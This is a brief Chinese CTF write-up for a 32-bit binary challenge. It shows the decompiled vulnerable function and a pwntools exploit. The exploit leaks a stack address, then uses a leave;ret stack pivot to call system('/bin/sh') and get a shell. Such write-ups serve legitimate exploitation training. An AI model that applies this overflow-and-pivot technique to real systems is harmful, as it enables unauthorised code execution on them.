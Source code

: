 



核心：

```
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```



有个system直接echo flag，却是假的

但是有system

```
system_plt = 0x08048400
```



有溢出，但不多





exp：

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')

io = process('./ciscn')

system_addr = 0x08048400

leave_ret = 0x080484b8

payload ='a'*0x20+'bbbbbbbb'

io.send(payload)

io.recvuntil('bbbbbbbb')

leak_addr = u32(io.recv(4))

payload2 =(b'aaaa'+p32(system_addr)+b'aaaa'+p32(leak_addr-0x28)+b'/bin/sh\x00').ljust(0x28,'a')

payload2+=p32(leak_addr-0x38)+p32(leave_ret)

io.sendline(payload2)

io.interactive()
```

